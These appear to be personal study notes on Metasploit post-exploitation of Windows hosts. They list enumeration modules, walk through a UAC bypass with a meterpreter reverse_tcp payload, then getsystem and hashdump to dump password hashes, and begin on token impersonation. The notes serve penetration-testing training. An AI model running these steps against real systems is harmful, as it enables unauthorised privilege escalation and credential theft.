 /post/windows/gather/enum_logged_on_users
/post/windows/gather/checkvm --> checks if its a vm (potential vm breakout module to control host system)

/post/windows/gather/enum_applications

`loot`
-> gives the dir whr all the info gathered is stored

/post/windows/gather/enum_av_excluded
/post/windows/gather/enum_computers

/post/windows/gather/enum_patches
-> check if a specific patch for windows is installed
A reliable way is go into the session then,
`shell`
`systeminfo`

/post/windows/gather/enum_shares
/post/windows/gather/enable_rdp


## Bypass UAC
- user account control (introed in windows vista)

Demo:
`getsystem`
failed in demo

`getprivs`

`shell`
`net users`
`net localgroup administrator`

There are a bunch pf bypass methods but here:
exploit/windows/local/bypassuac_injection
`set payload windows/x64/meterpreter/reverse_tcp`
`set port 4443`
x86 target used for x64 system, so set target

press tab to see available options
`set TARGET Windows\ x64 `

The new session is still the same user but with **UAC disabled** so,
`getsystem` works now

`hashdump`

### Token inpersonation with Incognito

Windows access tokens
- Created and managed by LSASS winlogon.exe
- Identifying/describing users
- Dont have to keep reentering creds
- Likes session cookies
